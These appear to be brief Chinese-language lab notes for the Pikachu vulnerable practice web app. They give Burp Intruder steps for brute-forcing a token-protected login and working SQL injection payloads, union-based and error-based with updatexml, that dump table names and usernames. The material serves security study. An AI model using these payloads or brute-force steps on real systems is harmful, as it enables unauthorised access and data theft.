

https://github.com/zhuifengshaonianhanlu/pikachu

#token防爆破演示
1、选择Pitchfork模式，添加2个

2、payload1选择密码

3、payload2处token需要从上一次请求中获取

4、选择recursive grep

5、注意线程设置为1

#sql注入
联合注入

    select id,username  from pikachu.member where id=-1 union select 1,2;
    id=1 union select 1,2--&submit=%E6%9F%A5%E8%AF%A2
显错注入

    select updatexml(1,(select group_concat(table_name) from information_schema.TABLES where TABLE_SCHEMA='pikachu'),1);
    #查表
    id=1 or updatexml(1,(select group_concat(table_name) from information_schema.TABLES where TABLE_SCHEMA=database()),1)--+&submit=%E6%9F%A5%E8%AF%A2
    #查数据
    id=1 or updatexml(1,concat(0x7e,(select username from (select username from member)c limit 1,1),0x7e),1);--+&submit=%E6%9F%A5%E8%AF%A2

#ref
https://www.cnblogs.com/Severus-Cavendish/p/16318992.html

https://xz.aliyun.com/t/6677

